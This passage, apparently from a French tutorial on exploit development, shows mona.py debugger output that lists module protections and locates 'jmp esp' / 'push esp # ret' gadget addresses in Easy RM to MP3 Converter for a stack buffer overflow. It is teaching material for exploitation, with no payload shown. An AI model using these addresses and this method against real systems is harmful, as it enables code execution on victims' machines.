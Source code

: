 ``` text
0BADF00D    0x772e0000 | 0x77380000 | 0x000a0000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [ADVAPI32.dll] (C:\Windows\system32\ADVAPI32.dll)
0BADF00D    0x00650000 | 0x0066e000 | 0x0001e000 | True   | False   | False |  False   | False  | 1.0.1.8 [wmatimer.dll] (C:\Program Files\Easy RM to MP3 Converter\wmatimer.dll)
0BADF00D    0x75e40000 | 0x75e75000 | 0x00035000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [WS2_32.dll] (C:\Windows\system32\WS2_32.dll)
0BADF00D    0x77820000 | 0x77826000 | 0x00006000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [NSI.dll] (C:\Windows\system32\NSI.dll)
0BADF00D    0x70900000 | 0x70912000 | 0x00012000 | True   | True    | True  |  True    | True   | 6.1.7600.16385 [pnrpnsp.dll] (C:\Windows\system32\pnrpnsp.dll)
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:01.412000
           [15:20:48] Thread 000006E4 terminated, exit code 0
```

Les seuls modules disponibles sans protection sont **MSRMfilter03.dll** et **RM2MP3Converter.exe**. Cependant les adresses de ce dernier contiennent le caractère nul (\\x00) et ne sont pas utilisables.

Il est également possible d'utiliser mona pour trouver directement des séquences permettant de jmp esp:

``` text
0BADF00D   [+] This mona.py action took 0:00:02.894000
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp -o

           ---------- Mona command started on 2016-04-18 12:24:59 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Ignoring OS modules
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 2 modules
0BADF00D       - Querying module RM2MP3Converter.exe
0BADF00D       - Querying module MSRMfilter03.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'push esp # ret 0x08' : 1
0BADF00D       - Number of pointers of type 'push esp # ret ' : 4
0BADF00D   [+] Results :
004351F6     0x004351f6 : push esp # ret 0x08 | startnull {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
0041CFE8     0x0041cfe8 : push esp # ret  | startnull {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
0043754C     0x0043754c : push esp # ret  | startnull,asciiprint,ascii,alphanum {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
0043AE68     0x0043ae68 : push esp # ret  | startnull {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)
1001B058     0x1001b058 : push esp # ret  |  {PAGE_EXECUTE_READ} [MSRMfilter03.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll)
0BADF00D       Found a total of 5 pointers
0BADF00D
```
